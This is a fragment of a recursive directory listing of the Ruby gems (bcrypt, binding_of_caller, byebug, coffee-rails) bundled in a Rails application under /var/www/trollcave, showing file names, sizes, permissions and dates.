total 132K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 bcrypt
-rwxr-xr-x 1 rails rails 113K Sep 16  2016 bcrypt_ext.so
-rw-r--r-- 1 rails rails  375 Sep 16  2016 bcrypt.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/lib/bcrypt:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 engine.rb
-rw-r--r-- 1 rails rails  514 Sep 16  2016 error.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 password.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/spec:
total 24K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 bcrypt
-rw-r--r-- 1 rails rails   68 Sep 16  2016 spec_helper.rb
-rw-r--r-- 1 rails rails 6.4K Sep 16  2016 TestBCrypt.java

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/bcrypt-3.1.10/spec/bcrypt:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 engine_spec.rb
-rw-r--r-- 1 rails rails  924 Sep 16  2016 error_spec.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 password_spec.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2:
total 60K
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 binding_of_caller.gemspec
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 examples
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
-rw-r--r--  1 rails rails   38 Sep 16  2016 Gemfile
-rwxr-xr-x  1 rails rails    0 Sep 16  2016 .gemtest
-rwxr-xr-x  1 rails rails   56 Sep 16  2016 .gitignore
-rwxr-xr-x  1 rails rails    0 Sep 16  2016 HISTORY
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rwxr-xr-x  1 rails rails 1.2K Sep 16  2016 LICENSE
-rwxr-xr-x  1 rails rails 3.2K Sep 16  2016 Rakefile
-rwxr-xr-x  1 rails rails 2.6K Sep 16  2016 README.md
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  325 Sep 16  2016 .travis.yml
-rwxr-xr-x  1 rails rails   19 Sep 16  2016 .yardopts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/examples:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  656 Sep 16  2016 example.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 binding_of_caller

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/ext/binding_of_caller:
total 28K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.6K Sep 16  2016 binding_of_caller.c
-rwxr-xr-x 1 rails rails  600 Sep 16  2016 extconf.rb
-rw-rw-r-- 1 rails rails   23 Sep 16  2016 Makefile
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ruby_headers

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/ext/binding_of_caller/ruby_headers:
total 16K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 192
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 193

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/ext/binding_of_caller/ruby_headers/192:
total 180K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 debug.h
-rw-r--r-- 1 rails rails  866 Sep 16  2016 dln.h
-rw-r--r-- 1 rails rails 5.8K Sep 16  2016 eval_intern.h
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 id.h
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 iseq.h
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 method.h
-rw-r--r-- 1 rails rails  15K Sep 16  2016 node.h
-rw-r--r-- 1 rails rails  11K Sep 16  2016 regenc.h
-rw-r--r-- 1 rails rails  30K Sep 16  2016 regint.h
-rw-r--r-- 1 rails rails  12K Sep 16  2016 regparse.h
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 rubys_gc.h
-rw-r--r-- 1 rails rails  641 Sep 16  2016 thread_pthread.h
-rw-r--r-- 1 rails rails  711 Sep 16  2016 thread_win32.h
-rw-r--r-- 1 rails rails  618 Sep 16  2016 timev.h
-rw-r--r-- 1 rails rails 5.1K Sep 16  2016 transcode_data.h
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 version.h
-rw-r--r-- 1 rails rails  19K Sep 16  2016 vm_core.h
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 vm_exec.h
-rw-r--r-- 1 rails rails 5.8K Sep 16  2016 vm_insnhelper.h
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 vm_opts.h

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/ext/binding_of_caller/ruby_headers/193:
total 236K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  414 Sep 16  2016 addr2line.h
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 atomic.h
-rw-r--r-- 1 rails rails 1010 Sep 16  2016 constant.h
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 debug.h
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 dln.h
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 encdb.h
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 eval_intern.h
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 id.h
-rw-r--r-- 1 rails rails 5.7K Sep 16  2016 internal.h
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 iseq.h
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 method.h
-rw-r--r-- 1 rails rails  15K Sep 16  2016 node.h
-rw-r--r-- 1 rails rails 4.8K Sep 16  2016 parse.h
-rw-r--r-- 1 rails rails  11K Sep 16  2016 regenc.h
-rw-r--r-- 1 rails rails  31K Sep 16  2016 regint.h
-rw-r--r-- 1 rails rails  13K Sep 16  2016 regparse.h
-rw-r--r-- 1 rails rails   28 Sep 16  2016 revision.h
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 rubys_gc.h
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 thread_pthread.h
-rw-r--r-- 1 rails rails  877 Sep 16  2016 thread_win32.h
-rw-r--r-- 1 rails rails  618 Sep 16  2016 timev.h
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 transcode_data.h
-rw-r--r-- 1 rails rails  12K Sep 16  2016 transdb.h
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 version.h
-rw-r--r-- 1 rails rails  20K Sep 16  2016 vm_core.h
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 vm_exec.h
-rw-r--r-- 1 rails rails 6.2K Sep 16  2016 vm_insnhelper.h
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 vm_opts.h

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 binding_of_caller
-rw-r--r-- 1 rails rails  333 Sep 16  2016 binding_of_caller.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/lib/binding_of_caller:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 mri2.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 rubinius.rb
-rwxr-xr-x 1 rails rails   47 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/binding_of_caller-0.7.2/test:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails 3.6K Sep 16  2016 test_binding_of_caller.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2:
total 112K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 bin
-rw-r--r--  1 rails rails  16K Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 2.2K Sep 16  2016 CONTRIBUTING.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
-rw-r--r--  1 rails rails  57K Sep 16  2016 GUIDE.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 5.7K Sep 16  2016 README.md

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/bin:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rwxr-xr-x 1 rails rails   69 Sep 16  2016 byebug

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/ext:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 byebug

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/ext/byebug:
total 504K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  12K Sep 16  2016 breakpoint.c
-rw-rw-r-- 1 rails rails  56K Sep 16  2016 breakpoint.o
-rw-r--r-- 1 rails rails  17K Sep 16  2016 byebug.c
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 byebug.h
-rw-rw-r-- 1 rails rails 101K Sep 16  2016 byebug.o
-rwxrwxr-x 1 rails rails 139K Sep 16  2016 byebug.so
-rw-r--r-- 1 rails rails  16K Sep 16  2016 context.c
-rw-rw-r-- 1 rails rails  70K Sep 16  2016 context.o
-rw-r--r-- 1 rails rails  503 Sep 16  2016 extconf.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 locker.c
-rw-rw-r-- 1 rails rails  14K Sep 16  2016 locker.o
-rw-rw-r-- 1 rails rails 7.8K Sep 16  2016 Makefile
-rw-rw-r-- 1 rails rails    0 Sep 16  2016 .RUBYARCHDIR.-.byebug.time
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 threads.c
-rw-rw-r-- 1 rails rails  29K Sep 16  2016 threads.o

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 byebug
-rw-r--r-- 1 rails rails   48 Sep 16  2016 byebug.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug:
total 240K
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  586 Sep 16  2016 attacher.rb
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 breakpoint.rb
-rwxr-xr-x 1 rails rails 139K Sep 16  2016 byebug.so
-rw-r--r-- 1 rails rails  528 Sep 16  2016 command_list.rb
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 command.rb
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 commands
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 commands.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 context.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 core.rb
-rw-r--r-- 1 rails rails  475 Sep 16  2016 errors.rb
-rw-r--r-- 1 rails rails 3.5K Sep 16  2016 frame.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 helpers
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 history.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 interface.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 interfaces
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 option_setter.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 printers
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 processors
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 remote.rb
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 runner.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 setting.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 settings
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 subcommands.rb
-rw-r--r-- 1 rails rails   93 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/commands:
total 176K
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 break.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 catch.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 condition.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 continue.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 delete.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 disable
-rw-r--r-- 1 rails rails  612 Sep 16  2016 disable.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 display.rb
-rw-r--r-- 1 rails rails  850 Sep 16  2016 down.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 edit.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 enable
-rw-r--r-- 1 rails rails  608 Sep 16  2016 enable.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 finish.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 frame.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 help.rb
-rw-r--r-- 1 rails rails  766 Sep 16  2016 history.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 info
-rw-r--r-- 1 rails rails  730 Sep 16  2016 info.rb
-rw-r--r-- 1 rails rails  486 Sep 16  2016 interrupt.rb
-rw-r--r-- 1 rails rails  563 Sep 16  2016 irb.rb
-rw-r--r-- 1 rails rails  894 Sep 16  2016 kill.rb
-rw-r--r-- 1 rails rails 4.0K Sep 16  2016 list.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 method.rb
-rw-r--r-- 1 rails rails  739 Sep 16  2016 next.rb
-rw-r--r-- 1 rails rails  693 Sep 16  2016 pry.rb
-rw-r--r-- 1 rails rails  893 Sep 16  2016 ps.rb
-rw-r--r-- 1 rails rails  826 Sep 16  2016 quit.rb
-rw-r--r-- 1 rails rails  930 Sep 16  2016 restart.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 save.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 set.rb
-rw-r--r-- 1 rails rails  809 Sep 16  2016 show.rb
-rw-r--r-- 1 rails rails  816 Sep 16  2016 source.rb
-rw-r--r-- 1 rails rails  815 Sep 16  2016 step.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 thread
-rw-r--r-- 1 rails rails  619 Sep 16  2016 thread.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 tracevar.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 undisplay.rb
-rw-r--r-- 1 rails rails  656 Sep 16  2016 untracevar.rb
-rw-r--r-- 1 rails rails  840 Sep 16  2016 up.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 var
-rw-r--r-- 1 rails rails  670 Sep 16  2016 var.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 where.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/commands/disable:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  908 Sep 16  2016 breakpoints.rb
-rw-r--r-- 1 rails rails  971 Sep 16  2016 display.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/commands/enable:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  886 Sep 16  2016 breakpoints.rb
-rw-r--r-- 1 rails rails  964 Sep 16  2016 display.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/commands/info:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 breakpoints.rb
-rw-r--r-- 1 rails rails  942 Sep 16  2016 display.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 file.rb
-rw-r--r-- 1 rails rails  642 Sep 16  2016 line.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 program.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/commands/thread:
total 28K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  641 Sep 16  2016 current.rb
-rw-r--r-- 1 rails rails  777 Sep 16  2016 list.rb
-rw-r--r-- 1 rails rails  926 Sep 16  2016 resume.rb
-rw-r--r-- 1 rails rails  811 Sep 16  2016 stop.rb
-rw-r--r-- 1 rails rails  852 Sep 16  2016 switch.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/commands/var:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  708 Sep 16  2016 all.rb
-rw-r--r-- 1 rails rails  674 Sep 16  2016 args.rb
-rw-r--r-- 1 rails rails 1016 Sep 16  2016 const.rb
-rw-r--r-- 1 rails rails  595 Sep 16  2016 global.rb
-rw-r--r-- 1 rails rails  704 Sep 16  2016 instance.rb
-rw-r--r-- 1 rails rails  652 Sep 16  2016 local.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/helpers:
total 48K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 eval.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 file.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 frame.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 parse.rb
-rw-r--r-- 1 rails rails  441 Sep 16  2016 path.rb
-rw-r--r-- 1 rails rails  364 Sep 16  2016 reflection.rb
-rw-r--r-- 1 rails rails  527 Sep 16  2016 string.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 thread.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 toggle.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 var.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/interfaces:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  577 Sep 16  2016 local_interface.rb
-rw-r--r-- 1 rails rails  640 Sep 16  2016 remote_interface.rb
-rw-r--r-- 1 rails rails  597 Sep 16  2016 script_interface.rb
-rw-r--r-- 1 rails rails 1008 Sep 16  2016 test_interface.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/printers:
total 20K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 base.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 plain.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 texts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/printers/texts:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 base.yml
-rw-r--r-- 1 rails rails  748 Sep 16  2016 plain.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/processors:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 command_processor.rb
-rw-r--r-- 1 rails rails  337 Sep 16  2016 control_processor.rb
-rw-r--r-- 1 rails rails  291 Sep 16  2016 post_mortem_processor.rb
-rw-r--r-- 1 rails rails  900 Sep 16  2016 script_processor.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/byebug-6.0.2/lib/byebug/settings:
total 64K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  441 Sep 16  2016 autoirb.rb
-rw-r--r-- 1 rails rails  462 Sep 16  2016 autolist.rb
-rw-r--r-- 1 rails rails  300 Sep 16  2016 autosave.rb
-rw-r--r-- 1 rails rails  295 Sep 16  2016 basename.rb
-rw-r--r-- 1 rails rails  333 Sep 16  2016 callstyle.rb
-rw-r--r-- 1 rails rails  230 Sep 16  2016 fullpath.rb
-rw-r--r-- 1 rails rails  389 Sep 16  2016 histfile.rb
-rw-r--r-- 1 rails rails  368 Sep 16  2016 histsize.rb
-rw-r--r-- 1 rails rails  294 Sep 16  2016 linetrace.rb
-rw-r--r-- 1 rails rails  381 Sep 16  2016 listsize.rb
-rw-r--r-- 1 rails rails  451 Sep 16  2016 post_mortem.rb
-rw-r--r-- 1 rails rails  387 Sep 16  2016 savefile.rb
-rw-r--r-- 1 rails rails  270 Sep 16  2016 stack_on_error.rb
-rw-r--r-- 1 rails rails  326 Sep 16  2016 width.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0:
total 56K
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  772 Sep 16  2016 CHANGELOG.md
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 coffee-rails.gemspec
-rw-r--r--  1 rails rails  909 Sep 16  2016 coffee-rails.gemspec.erb
-rw-r--r--  1 rails rails  204 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails   27 Sep 16  2016 .gitignore
drwxrwxr-x  5 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 MIT-LICENSE
-rw-r--r--  1 rails rails  659 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 README.md
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  426 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/gemfiles:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  192 Sep 16  2016 Gemfile-4-0-stable
-rw-r--r-- 1 rails rails  192 Sep 16  2016 Gemfile-4-1-stable

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib:
total 24K
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 assets
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 coffee
-rw-r--r-- 1 rails rails  125 Sep 16  2016 coffee-rails.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 rails

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/assets:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 javascripts

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/assets/javascripts:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   37 Sep 16  2016 coffee-script.js.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/coffee:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 rails

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/coffee/rails:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  319 Sep 16  2016 engine.rb
-rw-r--r-- 1 rails rails  479 Sep 16  2016 template_handler.rb
-rw-r--r-- 1 rails rails   61 Sep 16  2016 version.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/rails:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generators

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/rails/generators:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 coffee

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/rails/generators/coffee:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 assets

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/rails/generators/coffee/assets:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  353 Sep 16  2016 assets_generator.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/lib/rails/generators/coffee/assets/templates:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  211 Sep 16  2016 javascript.coffee

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/coffee-rails-4.1.0/test:
total 36K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  425 Sep 16  2016 assets_generator_test.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 assets_test.rb
